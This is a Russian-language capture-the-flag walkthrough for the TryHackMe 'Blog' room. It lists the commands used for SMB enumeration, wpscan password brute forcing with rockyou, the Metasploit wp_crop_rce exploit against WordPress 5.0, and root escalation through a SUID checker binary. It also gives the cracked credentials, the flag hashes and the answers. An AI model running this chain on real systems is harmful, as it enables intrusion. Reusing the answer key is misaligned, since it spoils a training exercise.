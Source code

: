 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Blog](https://tryhackme.com/r/room/blog) 

Всего 2 задания:
## Задание 1
Билли Джоэл создал блог на своем домашнем компьютере и начал над ним работать. Это будет так здорово!

Перечислите этот ящик и найдите 2 флага, которые в нем спрятаны! У Билли на ноутбуке происходят какие-то странные 
вещи. Сможете ли вы маневрировать и получить то, что вам нужно? Или вы упадете в кроличью нору...

Чтобы блог работал с AWS, вам необходимо добавить MACHINE_IP blog.thm в файл `/etc/hosts`.

Спасибо Sq00ky за идею root privesc ;)

### Ответьте на вопросы ниже
корень.txt
```commandline
nmap -sC -sV <IP>
smbclient -L //<IP>
smbclient -L //<IP>/BillySMB
get Alice-White-Rabbit.jpg
get tswift.mp4 
get check-this.png
exit
steghide extract -sf Alice-White-Rabbit.jpg
cat rabbit_hole.txt
zbarimg -q --raw check-this.png

vim /etc/hosts
blog.thm 10.10.10.32

wpscan --url http://blog.thm --enumerate u
wpscan -U users.txt -P /usr/share/wordlists/rockyou.txt --url http://blog.thm
# kwheel / cutiepie1 
searchsploit wordpress 5.0.0

msfconsole -q
use exploit/multi/http/wp_crop_rce
show options
set rhost blog.thm
set username kwheel
set password cutiepie1
exploit
shell
SHELL=/bin/bash script -q /dev/null
find / -type f -user root -perm -u=s 2>/dev/null
file /usr/sbin/checker
ltrace /usr/sbin/checker
export admin=1
```
```commandline
9a0b2b618bef9bfa7ac28c1353d9f318
```
пользователь.txt
```commandline
find / -type f -name user.txt 2>/dev/null
cat /media/usb/user.txt
```
```commandline
c8421899aae571f7af486492b71a8ab7
```
Где был найден user.txt?
```commandline
/media/usb
```
Какую CMS использовал Билли?
```commandline
Wordpress
```
Какая версия вышеуказанной CMS использовалась?
```commandline
5.0
```

## Задание 2
#### Ответьте на вопросы ниже
Поздравляю!
```commandline
Ответ не нужен
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)